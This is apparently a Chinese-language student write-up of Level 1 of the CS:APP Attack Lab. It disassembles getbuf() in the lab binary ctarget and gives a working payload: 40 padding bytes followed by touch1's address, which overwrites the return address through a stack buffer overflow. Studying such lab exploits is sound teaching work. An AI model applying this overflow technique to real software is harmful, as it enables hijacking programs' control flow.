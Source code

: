 ### Level 1

`getbuf()`被一个`test()`函数所调用：

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

我们希望我们执行`touch1()`函数：

```c
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

当输出了`Touch1!: You called touch1()`，我们确实就攻击成功了。

我们的思路就是，首先反汇编`ctarget`，找出`touch1()`的入口地址，然后尝试让`test()`的控制流切换给`touch1()`，可以借助`gdb`工具。

使用`objdump`反汇编：

```bash
objdump -d ctarget > ctarget.asm
```

查看一下`getbuf()`，得到：

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

我们可以看出，这个函数申请了`0x28`个字节的空间，这块空间实际上就是`BUFFER_SIZE`大小。因此，我们要注入的字符串就是`0x28`大小的随机内容加上`touch1()`的地址，这样在函数返回的时候就会因为进入缓冲区溢出的部分内容的地址，达到我们注入攻击的目的。已知`touch1()`的地址为`0x4017c0`，我们可以编写一个`p1.txt`文件（注意小端法）：

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
